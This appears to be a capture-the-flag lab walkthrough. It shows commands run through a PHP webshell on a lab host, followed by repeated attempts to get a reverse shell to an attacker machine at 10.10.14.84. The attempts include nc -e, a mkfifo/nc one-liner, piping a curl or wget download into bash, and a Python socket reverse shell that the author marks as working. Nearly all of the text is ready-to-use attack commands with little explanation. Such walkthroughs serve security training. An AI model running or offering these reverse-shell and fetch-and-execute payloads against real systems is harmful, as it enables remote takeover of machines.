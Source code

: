 > **Webshell**:

```bash
# http://10.129.142.193/dev/phpbash.min.php

whoami
hostname
hostname -I
uname -a
lsb_release -a
```

> **Attacker Machine**:

```bash
tcpdump -i tun0 icmp -n
```

> **Webshell**:

```bash
ping -c 2 10.10.14.84
```

> **Attacker Machine**:

```bash
nc -nlvp 443
```

> **Webshell**:

```bash
nc -e /bin/sh 10.10.14.84 443
# nc: invalid option -- 'e'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.84 443 >/tmp/f
# ?
```

> **Attacker Machine**:

```bash
nvim Index.html
python3 -m http.server 80
sudo nc -nlvp 443
```

> **Webshell**:

```bash
curl http://10.10.14.84/ | bash
# ?
wget -qO- http://10.10.14.84 | bash
# bash: line 1: syntax error near unexpected token `newline'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.84",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
# :)
```
